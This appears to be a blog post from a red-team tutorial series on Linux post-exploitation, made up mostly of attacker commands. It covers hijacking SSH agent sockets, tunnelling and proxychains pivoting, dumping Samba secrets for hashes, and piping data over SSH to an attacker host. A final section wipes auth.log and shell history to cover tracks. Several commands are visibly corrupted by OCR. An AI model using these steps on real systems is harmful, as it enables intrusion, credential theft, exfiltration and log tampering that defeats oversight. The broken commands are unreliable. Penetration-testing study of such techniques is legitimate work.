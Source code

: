 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking**

For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

``
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can log in to remote systems as the victim
ssh remote_system -l victim
``

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 , forward to the attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunneling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

proxychains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal host services and internal networks.

**VPNPivot**
VPN Pivot sends and receives a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the DHCP server or statically configured.

Installation

``
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
``
**Usage:**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
``
The options are :

    server IP: the IP address of the server (pivots)
    
    server port: the port which the server is listening on
    
    locale IP: the IP address of the network interface connected to the unreachable network.
    
    MTU: the MUT is optional unless you're changing it in pivots
``




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in the domain we can compromise it using pass the hash technic.

I will explain pass the hash in the upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from the target machine, and owning that data to see severity.

There are many techniques to move data from the target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set history max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To permanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practice.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistence in upcoming red team series.**_









































